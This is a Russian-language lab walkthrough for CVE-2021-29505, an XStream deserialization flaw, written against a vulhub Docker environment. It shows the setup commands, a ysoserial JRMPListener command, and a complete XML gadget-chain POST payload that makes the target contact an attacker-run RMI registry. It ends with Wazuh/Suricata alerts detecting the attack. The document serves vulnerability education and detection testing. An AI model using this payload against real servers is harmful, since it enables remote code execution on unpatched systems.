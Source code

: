 # CVE-2021-29505

### Материалы

* [https://www.opencve.io/cve/CVE-2021-29505](https://www.opencve.io/cve/CVE-2021-29505)
* [https://x-stream.github.io/CVE-2021-29505.html](https://x-stream.github.io/CVE-2021-29505.html)
* [https://access.redhat.com/security/cve/cve-2021-29505](https://access.redhat.com/security/cve/cve-2021-29505)

XStream - это программное обеспечение для сериализации Java-объектов в XML и обратно. Уязвимость в XStream версий до 1.4.17 может позволить удаленному злоумышленнику, обладающему достаточными правами, выполнять команды хоста только путем манипулирования обрабатываемым входным потоком.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/stream/CVE-2021-29505

Для запуска уязвимого сервера Springboot + XStream 1.4.16 выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступная веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 99

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>11</age>
</user>
```

Для эксплуатации уязвимости нужно поднять зловредный RMI-регистр с помощью JRMPListener из архива [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar)

Для этого выполните команду:

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/cve-2021-29505(1).png" alt=""><figcaption></figcaption></figure>

Этот RMI-реестр, получив запрос, возвращает вредоносный сериализованный объект, созданный с помощью гаджета CommonsCollections6.

Отправьте следующий POST-запрос на уязвимый сервер, чтобы проэксплуатировать уязвимость удаленного выполнения кода:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3113

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>атакующий-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>атакующий-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

После отправки атакующий хост получит запрос от уязвимого хоста и вернет вредоносный объект

<figure><img src="../../.gitbook/assets/cve-2021-29505(2).png" alt=""><figcaption></figcaption></figure>

После этого будет создан файл "/tmp/success", что свидетельствует об успешной эксплуатации

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java ("touch tmp/success")

<figure><img src="../../.gitbook/assets/cve-2021-29505(3).png" alt=""><figcaption></figcaption></figure>
